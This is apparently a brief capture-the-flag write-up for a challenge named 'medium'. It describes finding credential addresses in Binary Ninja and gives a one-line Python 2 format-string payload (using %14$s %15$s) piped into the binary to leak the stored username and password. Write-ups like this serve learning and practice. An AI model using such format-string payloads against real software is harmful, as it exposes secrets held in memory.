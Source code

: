 # [medium](medium)

* Open the program in Binary Ninja.
In Binary Ninja, locate the memory addresses where the username and password are stored.
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/medium1.png?raw=true)


* You'll find that the 14th and 15th positions in the stack are useable.

![](https://github.com/ace-lii/ctf_writeups/blob/main/img/medium2.png?raw=true)
 
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/medium3.png?raw=true)

* Exploit the vulnerability using a command like this: python2 -c 'print "\x60\xa0\x04\x08\xa0\xa0\x04\x08 %14$s %15$s"' |./medium.

![](https://github.com/ace-lii/ctf_writeups/blob/main/img/medium4.png?raw=true)